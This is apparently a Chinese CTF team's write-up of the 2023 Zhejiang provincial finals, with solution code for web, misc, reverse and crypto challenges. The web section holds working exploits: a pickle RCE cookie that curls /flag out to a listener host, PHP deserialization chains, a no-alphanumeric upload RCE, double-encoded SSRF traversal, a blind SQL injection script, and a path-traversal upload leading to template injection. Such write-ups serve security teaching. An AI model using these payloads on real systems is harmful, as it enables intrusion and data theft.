

# 2023 浙江省赛决赛

# Web

## baby md5

一开始没给附件，做不了，右面发了附件，很简单的签到，没啥可说的

```bash
//XFF头绕过isRequestFromLocal
/?key1=s1885207154a&key2=240610708&cmd=("\x73\x79\x73\x74\x65\x6d")("nl /f*");
```

乐，那些个不给附件就交 flag 的队伍也太心急了，装都不会装（发公众号的时候这句删掉）

## babyWeb

直接看 cookie，base64 解码后明显是 pickle 序列化的数据，直接打个 pickle 反序列化 rce 即可

```python
import pickle
import base64

class GetShellWithPython(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['python',
                  '-c',
                  'import os;'
                  'os.system("curl http://10.50.109.9:4444?a=`cat /flag`");'],))
    
pickleData = pickle.dumps(GetShellWithPython())

print(base64.b64encode(pickleData))
```

内网和题目是通的，本地 `python -m http.server 4444` 开个监听

然后生成的 cookie 替换下发过去即可 rce 外带出 flag

## easy serialize

常规 php 反序列化

exp:

```php
<?php
//flag is in /flag.php
class baby{
    public $var;
    public $var2;
    public $var3;

}

class young{
    public $var;

}

class old{
    public $var;
}

$b = new baby();
$y = new young();
$o = new old();
$b1 = new baby();

$o->var = $y;
$b->var2 = $o;
$b->var3 = "a";
$y->var = $b1;
$b1->var = "flag.php";

echo urlencode(serialize($b));
```

这逼出题人，会给提示就好好给，不会给提示就少说废话，//flag is in /flag.php 然后 flag.php 在同级目录，脑子多多少少是有问题（发公众号的时候这句删掉）

## p2rce

感觉这个题难度分值给错了，应该是道中等偏困难的题，考点比较多

题目给了源码

```bash
<?php
error_reporting(0);

class CCC {
    public $c;
    public $a;
    public $b;

    public function __destruct()
    {
        $this->a = 'flag';
        if($this->a === $this->b) {
            echo $this->c;
        }
    }
}

class AAA {
    public $s;
    public $a;

    public function __toString()
    {
        $p = $this->a;
        return $this->s->$p;
    }
}

class BBB {
    private $b;
    public function __get($name)
    {
        if (is_string($this->b) && !preg_match("/[A-Za-z0-9_$]+/", $this->b)) {
            global $flag;
            $flag = $this->b;
            return 'ok';
        } else {
            return '<br/>get it!!'; 
        }
    }
}

if(isset($_GET['ctf'])) {
    if(preg_match('/flag/i', $_GET['ctf'])) {
       die('nonono');
    }
    $a = unserialize($_GET['ctf']);
    system($flag);
    throw new Exception("goaway!!!");
} else {
    highlight_file(__FILE__);
}
```

首先第一个点就是有 `throw new Exception("goaway!!!");` 这么一行，所以要要手动 gc 去主动触发反序列化

，很多文章都有讲。然后 `__destruct` 是起点，往后找链子就行，最后还要注意这里 `preg_match('/flag/i', $_GET['ctf'])` 和

```php
$this->a = 'flag';
        if($this->a === $this->b) {
            echo $this->c;
        }
```

这里的绕过。这里使用引用就能绕了，即让变量 `a` 和变量 `b` 指向同一地址空间即可

然后最后的最后，就是如何无数字无字母 rce 了，这里其实可以用 php 文件上传的临时文件处理。一般 php 处理文件上传都是先将文件放在临时目录 `/tmp` 下，文件名一般为 `/tmp/phpXXXXXX`(不管有没有处理文件上传的逻辑，只要给了文件就都会先存在这里)。然后就可以这里执行命令来运行我们上传的文件 `. /???/????????[@-[]`

具体可以参考 p 神的这篇文章 [https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

Exp

```php
<?php
class AAA {
    public $s;
    public $a;
}

class BBB {
    private $b;
}

class CCC {
    public $a;
    public $c;
    public $b;
}

$p = '. /???/????????[@-[]';
$a = new AAA($b, 'eval');
$c = new CCC($a);
$b = new BBB($p);
$a1 = array($c, null);
$s = serialize($a1);
$s = str_replace('1;N', '0;N', $s);
echo urlencode($s);
```

最后自己用 burp 手动多次发送这样的包就行了

```http
POST /?ctf=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22CCC%22%3A3%3A%7Bs%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22c%22%3BO%3A3%3A%22AAA%22%3A2%3A%7Bs%3A1%3A%22s%22%3BO%3A3%3A%22BBB%22%3A1%3A%7Bs%3A6%3A%22%00BBB%00b%22%3Bs%3A20%3A%22.+%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D%22%3B%7Ds%3A1%3A%22a%22%3Bs%3A4%3A%22eval%22%3B%7Ds%3A1%3A%22b%22%3BR%3A3%3B%7Di%3A0%3BN%3B%7D HTTP/1.1
Host: localhost
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 155
Content-Type: multipart/form-data; boundary=c25447769cf9fc1afc13ede702b4279d

--c25447769cf9fc1afc13ede702b4279d
Content-Disposition: form-data; name="file"; filename="file"

#/bin/sh
cat /*
--c25447769cf9fc1afc13ede702b4279d--
```

## Server-Side Read File

简单的 java 题，给了 jar 包，用 IDEA 打开后发现有一处任意文件读的接口


但是直接访问会报 403，用 nginx 做了反代，有 waf，所以要通过他给的 `/fetch` 接口来打一个 ssrf 读文件


但直接给这样也是 403

```http
/fetch?url=http://127.0.0.1:8080/downloadFile/../flag
```

但注意到这里，读文件前先进行了一次 url 解码，同时对文件名进行了替换，将 `-` 替换为了 `/` ，所以可以构造 `..-flag` 来绕


最后再双 url 编码

```http
/fetch?url=%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%38%30%2f%64%6f%77%6e%6c%6f%61%64%46%69%6c%65%2f%25%32%65%25%32%65%25%32%64%25%36%36%25%36%63%25%36%31%25%36%37
```

## mysql8（题目名字忘了，没做出来，简单说下自己当时的情况）

题目说了是 mysql8，那肯定是用 mysql8 的特性来绕了

mysql8 的话有新特性，table 关键字和 values 关键字，然后题目 ban 了很多东西，什么 `select` `file` `updatexml` `extractvalue` 之类的都 ban 了，当时 `exp` 关键字能用，还是可以用来打报错注入的。后续用 table 盲注出了 user 表的所有字段值，但都没啥用，flag 在哪个表也不知道，断网很难受，最后也没做出来

我的盲注脚本

```python
import requests

dic = '_0123456789abcdefghijklmnopqrstuvwxyz{}'  # 字典
url = "http://10.1.100.50:8081/login.php"

proxy = {"http": "http://127.0.0.1:8080"}

def str2hex(str):
    result = '0x'
    for i in str:
        result += hex(ord(i))[2:]
    return result

def boomSql():
    result = ''
    for i in range(1, 40):
        for j in range(len(dic)):
            #print(dic[j])
            payload1 = {"username": f"-1'||(1,{str2hex(result+dic[j])})<(table user limit 1);#",
                        "password": "1"
                        }

            payload2 = {"username": f"-1'||(1,'user1,{str2hex(result+dic[j])})<(table user limit 1);#",
                        "password": "1"
                        }

            res = requests.post(url=url, data=payload1, proxies=proxy)
            # print(res.text)
            if "WelCome" in res.text:
                continue
            elif "username or password error" in res.text:
                # 返回假时表示上一个字母即为正确结果
                result += dic[j - 1]
                break
        print(result)
if __name__ == '__main__':
    boomSql()
```

只搞出 user 表，应该是有其他方法可以搞出全部表名的。。。。。

## ezWEB(复现)

这里我自己搭了个本地环境用来测试。

题目开局让读 hint.txt，之后根据 hint.txt 拿到 jar 包，然后审计

其实整个代码看下来思路差不多就有了，但因为是断网的原因，本地没有关于 jfinal enjoy 的相关资料，而且时间也不够了，所以还是有点可惜。

大致的思路就是先绕过 spring 的拦截器限制到 admin 路由，然后传一个恶意的 zip 包，由于文件名可控，所以可以构造 `../template/xxx.zip` 这样的文件名将恶意 zip 文件写入模板目录 `/usr/src/app/template` 来造成一个 ssti。(所以其实难点是如何构造 enjoy 引擎的表达式来读文件或 RCE？)

[https://jfinal.com/doc/6-1](https://jfinal.com/doc/6-1)

首先第一个点就是如何绕过这个拦截器的限制

其实看到这个 `request.getRequestURI()` 就大致能知道怎么绕了


`request.getRequestURI()` 取到的值是没有进行 url 解码后的 uri，而后续 tomcat 在分发 servlet 时是根据解码后的 uri 来的，同时也会对 `../` 进行处理，这其实 tomcat 解析差异造成的漏洞。相关可以参考 [https://xz.aliyun.com/t/7544](https://xz.aliyun.com/t/7544)

所以我们可以这样来绕过 `/index/%2e%2e/admin/hello` ，这样 `request.getRequestURI()` 取到的值为 `/index/%2e%2e/admin/hello` ，满足 <em>return </em>`uri.startsWith("/index") || uri.equals("/");`，返回 true，成功绕过权限校验，而后续 tomcat 对 uri 进行解析，分发到 `/admin/hello` 路由。

这里我自己搭了一个环境


可以看到成功进入 admin 路由

然后注意到 admin 路由存在文件上传，并且会将我们上传的 zip 文件解压到 `/usr/src/app/upload` 目录


同时注意到项目模板使用了 jfinal enjoy，这里的配置开启了热部署


所以如果我们想办法将文件弄到其模板目录 `/usr/src/app/template` 中，覆盖该目录下的 html 文件就可以实现 SSTI。

最初我看到的第一想法是利用 zip slip，但注意这里对压缩包里的文件名进行了校验，若文件名以 `../` 开头就跳过了，并且不能嵌套文件夹，所以不太可行。


回过头来看，注意到在文件上传处获得文件名直接用了 `file.getOriginalFilename()` ，没有任何过滤，所以可以构造这样的文件名(`../template/admin.zip`)来将我们的压缩包上传至 `/usr/src/app/template` 目录，这样根据其后端的解压逻辑，就会将解压好的文件放在 `/usr/src/app/template/admin/` 目录，这样我们覆盖 admin 下的 `hello.html` 即可造成 ssti。

所以首先构造恶意的压缩文件

```python
import zipfile

binary = b'hack!!!#(11*11)'
zipFile = zipfile.ZipFile("admin.zip", "a", zipfile.ZIP_DEFLATED)
info = zipfile.ZipInfo("admin.zip")
zipFile.writestr("hello.html", binary)
zipFile.close()
```

然后上传压缩包，这里有个比较坑的点，比赛时我也在这里浪费了很多时间，我的 burp 有问题，它莫名其妙的把我的压缩包给改了，导致我上传的压缩包一直是损坏的，一直解压失败，后面写 python 脚本上传，但 request 库有个坑人的点就是它会把你的 url 自动进行解码，也就导致了没法利用 `/index/%2e%2e/admin/hello` 来绕过权限校验。所以最后无奈只能写个 socket 来发包了。

```python
import socket

host = "112.124.44.238"
port = 9124
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (host, port)
client_socket.connect(server_address)

with open("admin.zip", "rb") as f:
    zipContent = f.read()
    ziptLength = len(zipContent)
    data = """--d96ac2008e6f77c16d20d99e223ea4b9\r\nContent-Disposition: form-data; name="file"; filename="../template/admin.zip"\r\n\r\n""".encode() + zipContent + """\r\n--d96ac2008e6f77c16d20d99e223ea4b9--\r\n""".encode()
    contentLength = len(data)
    payload = f"""POST /index/%2e%2e/admin/upload HTTP/1.1\r\nHost: {host}:{port}\r\nConnection: close\r\nContent-Length: {contentLength}\r\nContent-Type: multipart/form-data; boundary=d96ac2008e6f77c16d20d99e223ea4b9\r\n\r\n""".encode() + data
print(payload)
try:
    client_socket.sendall(payload) 
    data = client_socket.recv(4096)
    print(data.decode())
finally:
    client_socket.close()
```

现在访问 `/index/%2e%2e/admin/hello` 可以看到成功覆盖


然后就是如何利用 ssti 了，这里得查文档，但当时是断网，所以后面就基本很难了

查文档 [https://jfinal.com/doc/6-3](https://jfinal.com/doc/6-3) ，表达式这里可以调用静态方法，但题目的 jfinal 的版本是 5.1.2，并没有开启静态方法支持，所以想 rce 就比较难了，但注意到这里 [https://jfinal.com/doc/6-4](https://jfinal.com/doc/6-4)


#include 指令可以打一个文件包含，所以构造模板 `#include("../../../../../flag")` 来读 falg 即可(实测只能用相对路径，绝对路径会报错)


Exp:

```python
import zipfile
import socket
import os

host = "xxx.xxx.xxx.xxx"
port = 9124

def genZip():
    binary = b'#include("../../../../../flag")'
    if os.path.isfile("admin.zip"):
        os.unlink("admin.zip")
    zipFile = zipfile.ZipFile("admin.zip", "a", zipfile.ZIP_DEFLATED)
    info = zipfile.ZipInfo("admin.zip")
    zipFile.writestr("hello.html", binary)
    zipFile.close()

def sendHttp(httpData):
    
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_address = (host, port)
    client_socket.connect(server_address)
    try:
        client_socket.sendall(httpData) 
        data = client_socket.recv(4096)
        print(data.decode())
    finally:
        client_socket.close()
        
if __name__ == "__main__":

    with open("admin.zip", "rb") as f:
        zipContent = f.read()
        ziptLength = len(zipContent)
        data = """--d96ac2008e6f77c16d20d99e223ea4b9\r\nContent-Disposition: form-data; name="file"; filename="../template/admin.zip"\r\n\r\n""".encode() + zipContent + """\r\n--d96ac2008e6f77c16d20d99e223ea4b9--\r\n""".encode()
        contentLength = len(data)
        payload = f"""POST /index/%2e%2e/admin/upload HTTP/1.1\r\nHost: {host}:{port}\r\nConnection: close\r\nContent-Length: {contentLength}\r\nContent-Type: multipart/form-data; boundary=d96ac2008e6f77c16d20d99e223ea4b9\r\n\r\n""".encode() + data

    readflag = f"GET /index/%2e%2e/admin/hello HTTP/1.1\r\nHost: {host}:{port}\r\nConnection: close\r\n\r\n".encode()
    sendHttp(payload)
    sendHttp(readflag)
```

# Misc

## Xcode v5.8

XXencode 解码

（太贴心了，居然在 hint 里放了工具，建议所有比赛以此为参考）

## Ez_Signin

文件结尾附加 base64 字符，解码得到：

```python
What_iS_tHis_275626d657e6f556679666
```

将后半字符逆序再 hex 解码得到：

```python
five number
```

好嘛，还得爆破，不如一开始就爆破

```python
11452
```

得到大串 base64，解码后为按键精灵，删除 Ctrl-Z 的部分，画出 flag


没有按键精灵就用 python

## NewGrating

前期冰蝎流量解码

aes cbc 就能解

password.png 看着很有光栅画的感觉，但是光栅画实现的不同角度看出不同图片需要基于光栅材质的性质。

在电脑图片中没法实现，而实现方法只能是对图片进行分割并重排列


看图片可以明显的看出有五个一循环的特征，所以猜测可能需要隔五取一

可以先用 ps 邻近尝试一下，隔五取一，原图宽就是 120




即可得到一张图，因此确定了就是将五张图按列进行了分割，然后将每张图第一列作为第一组，成为大图的第一到五列，由此写脚本提取五张图

```python
from PIL import Image
img = Image.open('password.png')
width,height=img.size
pic = Image.new("RGB",(120,300))
for n in range(5):
    for i in range(0,height):
        for j in range(n,600,5):
            tmp = img.getpixel((j,i))
            pic.putpixel((j//5,i),tmp)
    pic.save("{}.png".format(n))
```

其中第四章就是密码


解压 7z 就是 flag

# Reverse

## ezRE

PE32，还有一个 binary 文件。先看程序

main 函数有花指令，还有用 `int 3` 跳转的，直接 nop 掉

4 个 TLS 回调函数都有反调试，手动 patch

```cpp
// positive sp value has been detected, the output may be wrong!
int __cdecl main_0(int argc, const char **argv, const char **envp)
{
  char v4; // [esp-28Ch] [ebp-51Ch]
  int v5; // [esp-288h] [ebp-518h]
  int i; // [esp+F8h] [ebp-198h]
  _DWORD v7[63]; // [esp+178h] [ebp-118h] BYREF
  CPPEH_RECORD ms_exc; // [esp+278h] [ebp-18h]

  ms_exc.registration.TryLevel = 0;
  sub_4110E6("Plz input your flag:", v4);
  sub_411037("%s", (char)byte_41B150);
  dword_41B16C = j_strlen(byte_41B150);
  v7[26] = 24234;
  v7[27] = 24902;
  v7[28] = 25618;
  v7[29] = 23938;
  v7[30] = 27572;
  v7[31] = 31178;
  v7[32] = 69522;
  v7[33] = 68864;
  v7[34] = 73677;
  v7[35] = 68410;
  v7[36] = 77977;
  v7[37] = 83181;
  v7[38] = 12585;
  v7[39] = 9667;
  v7[40] = 13524;
  v7[41] = 12011;
  v7[42] = 11843;
  v7[43] = 14508;
  v7[44] = 31301;
  v7[45] = 26091;
  v7[46] = 30728;
  v7[47] = 30431;
  v7[48] = 29995;
  v7[49] = 37484;
  v7[50] = 28625;
  v7[51] = 28559;
  v7[52] = 31400;
  v7[53] = 28135;
  v7[54] = 33319;
  v7[55] = 30264;
  v7[56] = 55785;
  v7[57] = 53999;
  v7[58] = 59437;
  v7[59] = 54723;
  v7[60] = 61902;
  v7[61] = 64867;
  j_memset(v7, 0, 0x60u);
  for ( i = 0; i < 24; ++i )
    v7[i] = (unsigned __int8)byte_41B150[i];
  __debugbreak();
  *(_DWORD *)(v5 + 184) = sub_412548;
  return 0;
}
```

不过这些都不关键，先看 encrypt 文件如何使用。搜索字符串"encrypt"


找交叉引用，发现解密过程


Str 字符串指示了这个文件是 DLL 文件。解密算法是简单循环异或；由于 DLL 文件头固定，所以不需知道 a1 的值也能解密。

```python
data = open('encrypt', 'rb').read()[:100]
data = bytearray(data)

head = open('ezRE.exe', 'rb').read()[:100]    # 任意PE文件
tt = []
for i in range(99):
    t = head[i] ^ data[i + 1] ^ head[i + 1] ^ 0x66
    tt.append(t)
    print(t, end=', ')
print()
print(bytes(tt))
# b'gaLf_ek@f_AsI_s1hT{galf}gaLf_ek@f_AsI_s1hT{galf}gaLf_ek@f_AcY_s1hT{galf}gaLf_ek@f_AsI_s1hT{galf}gaL'
```

去除重复部分，得到密钥 `b'gaLf_ek@f_AsI_s1hT{galf}'`

然后解密文件

```python
data = open('encrypt', 'rb').read()#[:100]
data = bytearray(data)

key = list(b'gaLf_ek@f_AsI_s1hT{galf}')

for i in range(len(data) - 1):
    data[i + 1] ^= data[i] ^ key[i % len(key)] ^ 0x66

open('dec.dll', 'wb').write(data)
```

打开 DLL 文件，没有明显的入口点，搜索字符串


三个函数分别是打印，输入，处理输入

第三个函数有一台虚拟机，虚拟机指令是从 v6 到 v8 的内存。

```python
int __cdecl sub_100012C0(int a1, int *a2)
{
  int v2; // ecx
  int v4; // [esp+4h] [ebp-70h]
  int v5; // [esp+8h] [ebp-6Ch]
  char v6; // [esp+Ch] [ebp-68h]
  char v7; // [esp+Dh] [ebp-67h]
  char v8[70]; // [esp+Eh] [ebp-66h]
  int v9; // [esp+54h] [ebp-20h]
  int v10; // [esp+58h] [ebp-1Ch]
  int v11; // [esp+5Ch] [ebp-18h]
  int v12; // [esp+60h] [ebp-14h]
  int v13; // [esp+64h] [ebp-10h]
  int v14; // [esp+68h] [ebp-Ch]
  int v15; // [esp+6Ch] [ebp-8h]

  v6 = 9;
  v7 = 0;
  v8[0] = 6;
  v8[1] = 7;
  v8[2] = 5;
  v8[3] = 8;
  v8[4] = 1;
  v8[5] = 2;
  v8[6] = 8;
  v8[7] = 3;
  v8[8] = 0;
  v8[9] = 8;
  v8[10] = 2;
  v8[11] = 5;
  v8[12] = 9;
  v8[13] = 1;
  v8[14] = 0;
  v8[15] = 9;
  v8[16] = 6;
  v8[17] = 5;
  v8[18] = 10;
  v8[19] = 1;
  v8[20] = 3;
  v8[21] = 10;
  v8[22] = 4;
  v8[23] = 0;
  v8[24] = 10;
  v8[25] = 3;
  v8[26] = 1;
  v8[27] = 8;
  v8[28] = 9;
  v8[29] = 1;
  v8[30] = 8;
  v8[31] = 10;
  v8[32] = 0;
  v8[33] = 0;
  v8[34] = 8;
  v8[35] = 5;
  v8[36] = 8;
  v8[37] = 0;
  v8[38] = 2;
  v8[39] = 8;
  v8[40] = 5;
  v8[41] = 0;
  v8[42] = 8;
  v8[43] = 4;
  v8[44] = 5;
  v8[45] = 9;
  v8[46] = 0;
  v8[47] = 0;
  v8[48] = 9;
  v8[49] = 6;
  v8[50] = 5;
  v8[51] = 10;
  v8[52] = 0;
  v8[53] = 3;
  v8[54] = 10;
  v8[55] = 6;
  v8[56] = 0;
  v8[57] = 10;
  v8[58] = 5;
  v8[59] = 1;
  v8[60] = 8;
  v8[61] = 9;
  v8[62] = 1;
  v8[63] = 8;
  v8[64] = 10;
  v8[65] = 0;
  v8[66] = 1;
  v8[67] = 8;
  v8[68] = 11;
  v8[69] = 0;
  v9 = 0;
  v10 = 0;
  v11 = 0;
  v12 = 0;
  v13 = 0;
  v14 = 0;
  v15 = 0;
  v4 = 0;
  while ( v4 < 10 )
  {
    v5 = 0;
    while ( 2 )
    {
      switch ( *(&v6 + v5) )
      {
        case 0:
          sub_10001170(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], &dword_100043D0[(unsigned __int8)v8[v5]]);
          goto LABEL_19;
        case 1:
          sub_10001230(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], &dword_100043D0[(unsigned __int8)v8[v5]]);
          goto LABEL_19;
        case 2:
          sub_10001260(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], (unsigned __int8)v8[v5]);
          goto LABEL_19;
        case 3:
          sub_10001290(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], (unsigned __int8)v8[v5]);
          goto LABEL_19;
        case 5:
          sub_10001100(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], &dword_100043D0[(unsigned __int8)v8[v5]]);
          goto LABEL_19;
        case 6:
          sub_100011A0(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], &dword_100043D0[(unsigned __int8)v8[v5]]);
          goto LABEL_19;
        case 7:
          sub_100011D0(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], &dword_100043D0[(unsigned __int8)v8[v5]]);
          goto LABEL_19;
        case 8:
          sub_10001200(&dword_100043D0[(unsigned __int8)v8[v5 - 1]], &dword_100043D0[(unsigned __int8)v8[v5]]);
          goto LABEL_19;
        case 9:
          dword_100043D0[6] = 0;
          dword_100043D0[7] = 26318864;
          dword_100043D0[11] = 0;
          v2 = *(_DWORD *)(a1 + 4 * v4 + 4);
          dword_100043D0[0] = *(_DWORD *)(a1 + 4 * v4);
          dword_100043D4 = v2;
          dword_100043D8 = *a2;
          dword_100043DC = a2[1];
          dword_100043E0 = a2[2];
          dword_100043E4 = a2[3];
          goto LABEL_19;
        case 11:
          if ( ++dword_100043D0[11] != 36 )
            goto LABEL_19;
          if ( !sub_10001130(dword_100043D0, dword_10004018[v4])
            || !sub_10001130(&dword_100043D0[1], dword_1000401C[v4]) )
          {
            return puts(Buffer);
          }
          v4 += 2;
          break;
        default:
LABEL_19:
          if ( *(&v6 + v5) == 9 )
          {
            ++v5;
          }
          else if ( *(&v6 + v5) == 11 )
          {
            v5 = 1;
          }
          else
          {
            v5 += 3;
          }
          continue;
      }
      break;
    }
  }
  return puts(aGood);
}
```

虚拟机指令长度为 1 或者 3，仅有指令 <9>（初始化内存）的长度为 1，其余指令格式为 < 类型，参数 1，参数 2>

指令不长，可以手工分析

```
#9
mem[0] = input[index]
mem[1] = input[index+1]
mem[2] = key[0]
mem[3] = key[1]
mem[4] = key[2]
mem[5] = key[3]
mem[6] = 0
mem[7] = 0x1919810
mem[11] = 0

#v7
0 6 7
mem[6] += mem[7]

#v8[2]
5 8 1
mem[8] = mem[1]

#v8[5]
2 8 3
mem[8] <<= 3

#8
0 8 2
mem[8] += mem[2]

#11
5 9 1
mem[9] = mem[1]

#14
0 9 6
mem[9] += mem[6]

#17
5 10 1
mem[10] = mem[1]

#20 
3 10 4
mem[10] >>= 4

#23
0 10 3
mem[10] += mem[3]

#26
1 8 9
mem[8] ^= mem[9]

#29
1 8 10
mem[8] ^= mem[10]

#32
0 0 8
mem[0] += mem[8]

#35
5 8 0
mem[8] = mem[0]

#38
2 8 5
mem[8] <<= 5

#41
0 8 4
mem[8] += mem[4]

#44
5 9 0

#47
0 9 6

#50
5 10 0

#53
3 10 6
mem[10] >>= 6

#56
0 10 5

#59
1 8 9

#62
1 8 10

#65
0 1 8

#68
11 0 0
check
```

发现又是 tea 加密，密钥是此处的 a2，即先前 sub_10001740 的 v4


Check answer 在 dword_10004018


```python
key = [0x1234567, 0x89abcdef, 0xfedcba98, 0x76543210]
delta = 0x1919810

ans = [  0x02, 0x91, 0xD2, 0xD9, 0x8C, 0x51, 0x34, 0xDC, 0xAA, 0x71, 
  0xE1, 0xC3, 0xE0, 0x20, 0x5D, 0x66, 0x65, 0x77, 0x6A, 0x92, 
  0xEE, 0x32, 0x93, 0x13, 0x61, 0xAF, 0x0F, 0xF0, 0x82, 0x2B, 
  0xB7, 0x16, 0x00, 0xE6, 0x9F, 0x52, 0x0C, 0xDB, 0xA3, 0x2B]

ans4 = []
for i in range(0, len(ans), 4):
    ans4.append(int.from_bytes(ans[i:i+4], 'little'))

flag = b''
for j in range(5):
    a1 = ans4[0 + j * 2]
    a2 = ans4[1 + j * 2]
    _sum = (delta * 36) & 0xffffffff
    for i in range(36):
        a2 -= ((a1 << 5) + key[2]) ^ (a1 + _sum) ^ ((a1 >> 6) + key[3])
        a2 &= 0xffffffff
        a1 -= ((a2 << 3) + key[0]) ^ (a2 + _sum) ^ ((a2 >> 4) + key[1])
        a1 &= 0xffffffff
        _sum = (_sum - delta) & 0xffffffff

    flag += int.to_bytes(a1, 4, 'little')
    flag += int.to_bytes(a2, 4, 'little')
print(flag)
# b'flag{Be@ut1fuL-Ex2cpti0n-Vi3tual-F10wer}'
```

# Crypto

## odd_factor

m 的位数小于 q，直接模 q 求逆元

```python
from Crypto.Util.number import *
real_p= 55062197317446999463174096263876498316593115551165463378239159905809676640454208209918217385995561457672251651152473557992138742135601815169185076218362135899344751677854110957095631491941800392408438811446405332089775007801060526398896827361974179433880944797942088556569121442758603066960469154848058525555919633585074687002653178371734389317920858433073228324119903275748010661381766238387457768079481851583182446632335485869275973875534654769410510717692168386489418039967948185844825093846853624216235947670855966394462382073931422900372413115651622846475697848013017412006570314438593706146398436291246626158990758006393615755523796444561949003170112244508437710660501492796759763772367048031312446027160494843576151592257914618405347047042441934740949960412334441
real_q= 45155472176560032394858410670734933043941707240560969397865820853107208563396632699891831616425752109128199454680206954866754585433276759685964959793491769
c= 29523353286662420447288429739820034783180593797609319451802397100630230980492429018460170953928563500202582346942199142197785013588760361998950680313834852877108490792872966526015601050884302042018430083206594510237759312983601611859463798190030017950871533501858080631812335748118077560727632343411246129300608114305005550505334558174100631528820258311294104339625598892394650057151595693208992748213949675232397315855876112627150056755058037371576593415880216272977089381300018893299243081150404742921857440064511032025713772327330252031889227225225823090259315491541462395033093742723528280894218885823268632726414223235862198062147879817814619506196476372010238569022037192794906574876350397747710442236263832960264742898816690984736558117232240584876068441918457179310704845718452829124188403042383896118962087518608022867798693371250897927956711708162621772577123078819978462483151316840145260542738057960771219011604
e = 65537
q = real_q
d =inverse(e,q-1)
print(long_to_bytes(pow(c,d,q)))
```

## R_r

hint1 =  p^2 * q ：建议出题人去本地运行一下是先异或运算，还是先乘法运算。

(实际上是先乘法运算，再异或运算的，但是出题人给的是先异或运算，再乘法运算的数据，无力吐槽)

还有记得下次出题给的数据带上变量名，源码里就 2 个 print，给 6 个数据，还要自己一个个猜数据，真没必要这么搞。

回到题目，既然实际给的是 hint1 =  （p^2） * q ,直接 gcd 就可以分解 n

$$
c1 = (pow(g1, m1, n*n) * pow(r1, n, n*n))% (n*n)
$$

$$
c2 = (pow(g2 ,m2, n*n) * pow(r2, n, n*n))% (n*n)
$$

首先两边同时(p-1)*(q-1)次方,即可消除 r 的影响

二项式展开

$$
(n+1)^m mod n^2 = m * n +1 mod n^2
$$

这样第二段就可以直接求了。

第一段把 n+1 看作是一个生成元，即

$$
g1 = (n+1)^k mod n^2
$$

这里可以二项式展开求解 k，得到 k 之后跟第二段一样打

```python
n = int("6401013954612445818165507289870580041358569258817613282142852881965884799988941535910939664068503367303343695466899335792545332690862283029809823423608093")
c1 = int("22910385210568304958107161962017571071703393748261640924342214385124480716797688566364653958202687496536914575643833029904856616616361552065618233346044007555777302010059956180989299881167620123404157184856914845192870935052388587836639109148835943673531131160427033530692003589837535181715398419950146539295")
c2 = int("1575524821989347564982343787894614774971961408914047143111430998332905514952763763178813184329394269351923009990561408822591722869938177600916108444223304303415189694914099273457779531528733347451404048342144363056595763890310306908442288806184110971228621297398433865511027539993213883705000977616240346813")
g1 = int("17972230632127848019159546735961788940716048105141697301143941156703842346042203282817931551107307709193702947228391512160043387022559315244264272847054598619204201233617960636207483484678274743413667794843966312743641773413722257484289905138257413051485362435527999048370294082815591234891288108779292951281")
hint1 = int("6401013954612445818165507289870580041358569258817613282142852881965884799988781523237008972618187818067224685481215653712129336192028926158248667825733199")
hint2= int("6401013954612445818165507289870580041358569258817613282142852881965884799988781523237008972618187818067224685481215653712129336192028926158248667825732455")
from Crypto.Util.number import *
from gmpy2 import *
q = gcd(hint1,n)
p = n//q
g = (pow(g1,(p-1)*(q-1),n*n)-1)//n
g = g % n
k = g*inverse(p-1,n)*inverse(q-1,n) % n
c = (pow(c1,(p-1)*(q-1),n*n)-1)//n
c = c % n
km = c*inverse(p-1,n)*inverse(q-1,n) % n
m = (km*inverse(k,n))%n
flag1 = long_to_bytes(m)
c = (pow(c2,(p-1)*(q-1),n*n)-1)//n
c = c % n
m = c*inverse(p-1,n)*inverse(q-1,n) % n
flag2 = long_to_bytes(m)
print(flag1+flag2)
```

## 0_1_Game

$$
hint1 = (p+q)^s mod n
$$

$$
hint2 = (p-q)^s mod n
$$

放到模 p 上：

$$
hint1 = q^s  mod  p
$$

$$
hint2 = (-q)^s mod p
$$

$$
观察可知 hint1+hint2 为p的倍数
$$

gcd 分解 n

之后勒让德符号应用，二次剩余*非二次剩余 = 非二次剩余,依次判断 cipher 是否为二次剩余即可

```python
from Crypto.Util.number import *
from gmpy2 import *
import re
w =  open("cipher.txt", 'r')
data = []
for i in range(4):
    tmp = w.readline()
    data.append(int(eval(tmp[tmp.index('=')+1:])))
n ,hint1,hint2,z = data[0],data[1],data[2],data[3]
content = w.read()
# 使用正则表达式匹配以"ciphertext="开头，然后跟着一个包含数字的方括号内的内容
match = re.search(r'ciphertext\s*=\s*\[([0-9,\s]+)\]', content)

if match:
    # 获取匹配到的内容
    numbers_str = match.group(1)
    
    c = [int(number.strip()) for number in numbers_str.split(',')]

kp = hint1+hint2
p = gcd(kp,n)
print(isPrime(p))
q = iroot(n//p,2)[0]

m = ''
for i in c:
    if pow(i, (p-1)//2, p) == p-1 and pow(i, (q-1)//2, q) == q-1:
        m+='1'
    else:
        m+='0'
m = m[::-1]
print(long_to_bytes(int(m,2)))
```
